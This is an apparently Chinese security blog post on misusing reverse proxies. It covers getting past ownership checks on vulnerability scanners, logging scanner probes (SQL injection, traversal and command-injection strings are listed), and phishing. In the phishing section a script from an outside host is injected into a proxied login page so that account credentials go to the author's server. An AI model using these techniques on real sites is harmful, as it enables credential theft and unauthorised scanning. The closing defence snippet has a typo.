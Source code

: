 # 反向代理的有趣用法

0x00 简介
-------

* * *

首先请各位客官看这里:[http://viptest.yupage.com](http://viptest.yupage.com/)

这便是一个使用开源程序7ghost搭建的反向代理演示站。

反向代理，是指反向代理服务器从目标内容服务器上抓取内容返回给用户，反向代理服务器充当了一个中介的功能，它本身是没有任何内容的。整个流程如下：

![2013081909582854868.jpg](http://drops.javaweb.org/uploads/images/66af1417243e3e5740e0ec83540de22157ac0c25.jpg)

整个流程非常简单，只需要负责映射请求的.htaccess和负责抓取内容的index.php就可完成，中间还可以通过正则表达式等实现内容和网址的替换。

这种技术还广泛运用于小偷程序中。

0x01 用反向代理让漏洞检测平台帮我们扫漏洞
-----------------------

* * *

现在有一些在线漏洞检测平台（如360 安全宝等），都能让我们对目标网站的安全状况有一个初步的了解。但是，这些漏洞检测平台都是需要验证所有权的，那么，我们能不能绕过这个限制呢？反向代理能解决这个问题。

首先，使用设置好反向代理的目标（如wooyun.org），然后将我们配置好了反向代理程序的网址输入到漏洞检测平台，选取代码验证方式，在我们的核心中转页面（index.php）中插入这段代码，就能够通过漏洞扫描平台的验证，扫目标站的漏洞了。

0x02 搭建一个“蜜罐”来抓取漏洞扫描平台的扫描语句
---------------------------

* * *

各个在线漏洞扫描平台都看上去非常高端洋气国际化的样子，那么，它们是怎么扫描的呢？可以使用反向代理来抓扫描语句。

首先，在index.php核心中转文件中加入一段代码，将所有请求记录到log.txt中

```
$data = $_SERVER['REQUEST_URI'] . "\n";
if ($_POST) {
    foreach ($_POST as $key => $value) {
        $data.= "$key=$value" . '\n';
    }
}
file_put_contents("log.txt", $data, FILE_APPEND);

```

然后将搭建好的“蜜罐”丢给360漏洞扫描平台扫描，大约1个小时后，去看看log.txt，已经记录下了上千条扫描日志，由于日志太长，无法全部贴上来，选取几条有代表性的贴上来，并注释了一下可能的用途，全部日志请在[http://viptest.yupage.com/log.txt](http://viptest.yupage.com/log.txt)查看。

```
/index.php 用蜘蛛从主页层层抓取页面
/akjkl678686hjhjk/ 抓取404页面标识
/admin/ 扫描后台地址
/backup/ 找备份
/bugs/new_confirm/phpmyadmin/ 找phpmyadmin空口令
/crossdomain.xml 看有没有flash跨域限制
/bugs/new_submit/fckeditor/upload/ 找有漏洞的编辑器
/examples/jsp/cal/cal2.jsp?time= 检测XSS
/job.php?action=list%27and%28123%29%3D%27321 扫描SQL注射
/?&redirect:%25{13579246-1} 扫Struts2
/bugs/phpinfo.php 扫phpinfo
/job.php?action=../../../../../../../../../../../../boot.ini%00.htm 扫任意文件读取
/user.php?action=login%7Cping+-n+12+127.0.0.1 扫命令执行

```

除此之外，还大量扫描了一些不存在的页面，如/bugs/new_unclaimed/fckeditor/ajkljlhjh/，不知道有何用意。

0x03 钓鱼
-------

* * *

由于所有经过反向代理服务器的页面都可以控制，所以我们也可以利用此进行钓鱼。请各位看这里：[http://viptest.yupage.com/user.php?action=login](http://viptest.yupage.com/user.php?action=login)

我使用正则表达式在该页面中插入了一段这样的代码

```
<script src="http://pujun.li/xss.js"></script><script>xss.xform(document.forms[1],'http://vip.yupage.com/wy.php');</script>

```

使用了长短短的表单劫持代码，这样如果用户在我的演示站登录乌云帐号时就会自动把乌云帐号发送到我的一个接受页面，而还是能正常登录的。除此之外，由于所有经过反向代理服务器的页面都可以控制，我们还可以做很多事，如在页面中动态插入一个xsser.me盗cookies等。

0x04 如何防止被反向代理
--------------

* * *

看完了反向代理的危害后，如何防止自己的站被反向代理呢？有一段代码能够较好地防止被反向代理

.htaccess:

```
RewriteEngine On RewriteBase / php_value auto_append_file proxy.php proxy.php:

```


```
<?php  
    if ((getenv("HTTP_X_FORWARDED_FOR")!="")&&($getenv("HTTP_HOST")!="wooyun.org")){  
        exit();  
    }  
?>

```

实际上XFF头完全可以伪造，此方法并不能完全防御住~